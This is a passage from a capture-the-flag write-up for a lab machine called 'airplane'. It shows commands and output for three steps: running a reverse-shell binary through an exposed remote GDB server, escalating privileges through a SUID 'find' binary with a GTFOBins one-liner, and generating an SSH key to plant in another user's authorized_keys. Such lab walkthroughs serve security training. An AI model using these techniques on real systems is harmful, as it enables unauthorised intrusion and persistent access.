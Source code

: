 After this I started GDB with the binary and targeted the server as my remote machine. I encountered a permission denied error for the upload, but by specifying the destination inside `/tmp`, I was able to upload the file. After executing the binary, I received my reverse shell:
```bash
$ gdb binary.elf
  (gdb) target extended-remote 10.10.104.147:6048
    Remote debugging using 10.10.104.147:6048
  (gdb) remote put binary.elf binary.elf
    Remote I/O error: Permission denied
  (gdb) remote put binary.elf /tmp/binary.elf
    Successfully sent file "binary.elf".
  (gdb) set remote exec-file /tmp/binary.elf
  (gdb) run
    Starting program: /home/kali/ctf/airplane/binary.elf 
    [Detaching after fork from child process 29006]
    [Inferior 1 (process 29004) exited normally]

hudson@airplane:/opt$ id
  uid=1001(hudson) gid=1001(hudson) groups=1001(hudson)
```

## Privilege Escalation carlos

While enumerating the system for privilege escalation, I discovered that the SUID bit was set for the `find` executable:
```bash
hudson@airplane:/home/hudson$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/bin/find
  [...]
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/find/#suid">gftobins</a> gave me all I needed:
```bash
hudson@airplane:/home/hudson$ /usr/bin/find . -exec /bin/sh -p \; -quit
$ id
  id=1001(hudson) gid=1001(hudson) euid=1000(carlos) groups=1001(hudson)
$ cat user.txt
  e[removed]2
```

This shell wasn't comfortable, and stabilization techniques didn't work. I generated a new SSH key pair on my local machine, inserted it in carlos `authorized_keys`, and was able to log in via SSH:
```bash
kali@kali:~/ctf/airplane$ ssh-keygen -t rsa    
  Generating public/private rsa key pair.
  Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/ctf/airplane/id_rsa
  Enter passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved in /home/kali/ctf/airplane/id_rsa
  Your public key has been saved in /home/kali/ctf/airplane/id_rsa.pub
  The key fingerprint is:
  SHA256:Y...Y kali@kali
  The key's randomart image is:
  +---[RSA 3072]----+
  |      +o+o o=    |
  |     .+ooE.= . . |
  |     . =* = . o  |
  |      oo   o . +.|
  |     .+.S   = ..+|
  |     ...   = + ..|
  |          = + o o|
  |           + + *+|
  |            . ooB|
  +----[SHA256]-----+#
```